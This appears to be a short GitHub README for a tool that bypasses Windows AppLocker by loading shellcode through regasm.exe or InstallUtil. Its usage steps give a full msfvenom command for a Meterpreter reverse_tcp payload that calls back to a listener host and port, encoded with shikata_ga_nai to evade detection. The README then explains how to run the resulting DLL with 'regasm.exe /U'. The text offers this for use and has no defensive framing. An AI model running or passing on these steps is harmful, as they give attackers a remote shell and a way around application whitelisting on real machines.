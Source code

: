 # Regasm_InstallUtil_ApplockerBypass
AppLocker Bypass With Regasm/InstallUtil

使用方法
=============

1. Modify shellcode.txt file and add ShellCode generated by msfvenom, Example:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.231.138 lport=4444 -e x8
6/shikata_ga_nai -i 15 -f csharp

2.  Generate Success, Name : RegasmBypass.dll

3.  Add the generated RegasmBypass.dll to Regasm.exe, Example: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U RegasmBypass.dll


![](demo.png)

